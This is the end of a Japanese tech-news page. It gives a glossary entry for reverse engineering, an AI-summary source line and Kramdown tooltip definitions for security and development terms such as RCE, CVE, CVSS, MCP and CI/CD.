| **リバースエンジニアリング** | 完成した製品やコンパイルされたプログラム（バイナリ）を分解・解析して、その構造や仕組み、ソースコードの設計を解き明かす技術です。「時計を分解して内部の歯車の組み合わせを調べる」作業に似ています。 |

---
(出典: 各公式サイト、GitHub、リリースノート、TechニュースサイトよりAIが要約)

<!-- Kramdown略語定義: 本文中の対象単語に自動でインラインツールチップが付与されます -->
*[RCE]: Remote Code Execution（外部からネットワーク越しに任意のプログラムを勝手に実行される深刻な脆弱性）
*[CVE]: Common Vulnerabilities and Exposures（世界共通で割り振られるセキュリティ脆弱性の識別番号）
*[GHSA]: GitHub Security Advisory（GitHub上で公開・管理されるセキュリティ警告識別子）
*[CVSS]: Common Vulnerability Scoring System（脆弱性の深刻度を0〜10の数値で評価する共通規格）
*[MCP]: Model Context Protocol（AIエージェントと外部ツール・データソースを安全に繋ぐためのオープン共通規格）
*[CI/CD]: Continuous Integration / Continuous Delivery（コードのテスト・検証から本番公開までを自動化する仕組み）
*[TDD]: Test-Driven Development（本体コードの実装前にテストを先に書く開発手法）
*[マルチテナント]: 1つのシステムやサーバー環境を複数の企業・顧客で安全に共同利用する設計
*[シンボリックリンク]: 別のファイルやフォルダを指し示すショートカット機能
*[バイナリ]: コンピュータが直接解読・実行できる機械語に変換されたプログラムファイル
